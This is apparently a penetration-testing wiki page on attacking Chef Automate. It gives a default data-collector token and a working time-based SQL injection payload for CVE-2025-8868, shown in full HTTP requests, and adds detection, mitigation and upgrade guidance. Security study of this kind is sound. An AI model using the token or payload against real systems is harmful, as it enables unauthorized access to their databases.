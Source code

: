 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Overview

This page collects practical techniques to enumerate and attack Chef Automate instances, with emphasis on:
- Discovering gRPC-Gateway-backed REST endpoints and inferring request schemas via validation/error responses
- Abusing the x-data-collector-token authentication header when defaults are present
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) affecting the filters[].type field in /api/v0/compliance/profiles/search

> Note: Backend responses that include header grpc-metadata-content-type: application/grpc typically indicate a gRPC-Gateway bridging REST calls to gRPC services.

## Recon: Architecture and Fingerprints

- Front-end: Often Angular. Static bundles can hint at REST paths (e.g., /api/v0/...)
- API transport: REST to gRPC via gRPC-Gateway
  - Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
  - Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
  - POST /api/v0/compliance/profiles/search
  - POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate exposes a data collector that authenticates requests via a dedicated header:

- Header: x-data-collector-token
- Risk: Some environments may retain a default token granting access to protected API routes. Known default observed in the wild:
  - 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

If present, this token can be used to call Compliance API endpoints otherwise gated by auth. Always attempt to rotate/disable defaults during hardening.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints often leak useful validation errors that describe the expected request model.

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:

```json
{
  "filters": [
    { "type": "name", "values": ["test"] }
  ]
}
```

Malformed JSON or wrong field types typically trigger 4xx/5xx with hints, and headers indicate the gRPC-Gateway behavior. Use these to map fields and localize injection surfaces.

## Compliance API SQL Injection (CVE-2025-8868)

- Affected endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Vulnerability class: time-based blind SQL injection in PostgreSQL
- Root cause: Lack of proper parameterization/whitelisting when interpolating the type field into a dynamic SQL fragment (likely used to construct identifiers/WHERE clauses). Crafted values in type are evaluated by PostgreSQL.

Working time-based payload:

```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```

Technique notes:
- Close the original string with a single quote
- Concatenate a subquery that calls pg_sleep(N)
- Re-enter string context via || so the final SQL remains syntactically valid regardless of where type is embedded

### Proof via differential latency

Send paired requests and compare response times to validate server-side execution:

- N = 1 second

```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```

- N = 5 seconds

```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```

Observed behavior:
- Response times scale with pg_sleep(N)
- HTTP 500 responses may include pq: details during probing, confirming SQL execution paths

> Tip: Use a timing validator (e.g., multiple trials with statistical comparison) to reduce noise and false positives.

### Impact

Authenticated users—or unauthenticated actors abusing a default x-data-collector-token—can execute arbitrary SQL within Chef Automate’s PostgreSQL context, risking confidentiality and integrity of compliance profiles, configuration, and telemetry.

### Affected versions / Fix

- CVE: CVE-2025-8868
- Upgrade guidance: Chef Automate 4.13.295 or later (Linux x86) per vendor advisories

## Detection and Forensics

- API layer:
  - Monitor 500s on /api/v0/compliance/profiles/search where filters[].type contains quotes ('), concatenation (||), or function references like pg_sleep
  - Inspect response headers for grpc-metadata-content-type to identify gRPC-Gateway flows
- Database layer (PostgreSQL):
  - Audit for pg_sleep calls and malformed identifier errors (often surfaced with pq: prefixes coming from the Go pq driver)
- Authentication:
  - Log and alert on usage of x-data-collector-token, especially known default values, across API paths

## Mitigations and Hardening

- Immediate:
  - Rotate/disable default data collector tokens
  - Restrict ingress to data collector endpoints; enforce strong, unique tokens
- Code-level:
  - Parameterize queries; never string-concatenate SQL fragments
  - Strictly whitelist allowed type values on the server (enum)
  - Avoid dynamic SQL assembly for identifiers/clauses; if dynamic behavior is required, use safe identifier quoting and explicit whitelists

## Practical Testing Checklist

- Check if x-data-collector-token is accepted and whether the known default works
- Map the Compliance API request schema by inducing validation errors and reading error messages/headers
- Test for SQLi in less obvious “identifier-like” fields (e.g., filters[].type), not just values arrays or top-level text fields
- Use time-based techniques with concatenation to keep SQL syntactically valid across contexts

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}